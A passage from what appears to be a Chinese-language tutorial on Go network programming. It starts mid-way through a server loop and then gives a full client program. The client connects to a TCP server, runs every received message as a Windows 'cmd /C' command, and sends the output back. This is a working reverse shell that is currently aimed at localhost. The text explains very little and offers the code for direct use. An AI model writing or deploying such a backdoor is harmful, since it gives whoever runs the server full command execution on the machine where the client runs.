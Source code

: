 ```go
		}
		recvStr := string(buf[:n])
		fmt.Println(recvStr)
	}
}

```
客户端
```go
package main

import (
	"fmt"
	"net"
	"os/exec"
	//"strings"
)

func main() {
	conn, err := net.Dial("tcp", "127.0.0.1:9999") // 对服务端发起连接
	if err != nil {
		fmt.Println("err:", err)
		return
	}
	defer conn.Close() // 关闭双向链接
	for {
		buf := [512]byte{}
		serverMsg, err := conn.Read(buf[:]) // 服务端返回的信息
		if err != nil {
			fmt.Println("recv failed err:", err)
			return
		}
		fmt.Println("server message:", string(buf[:serverMsg]))
		shell_arg := []string{"/C", string(buf[:serverMsg])}
		execcmd := exec.Command("cmd", shell_arg...)
		cmdout, _ := execcmd.Output()
		//var inputMsg string
		//fmt.Println("请输入你要发送的信息:")
		//fmt.Scanln(&inputMsg)
		//inputMsg = strings.Trim(inputMsg, "\r\n") // 去除空行等，防止阻塞
		//if strings.ToUpper(inputMsg) == "quit" {
		//	return
		//}
		_, err = conn.Write([]byte(cmdout)) // 发送数据
		if err != nil {
			return
		}
	}
}

```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1650815926889-17c25e6b-3e16-4653-b280-aebb6d52009c.png#averageHue=%23022658&clientId=u5abf47a4-7313-4&from=paste&height=479&id=u8ca31f10&originHeight=599&originWidth=655&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37100&status=done&style=none&taskId=uef66581f-4d94-407d-81bb-b0afd2a4c2c&title=&width=524)
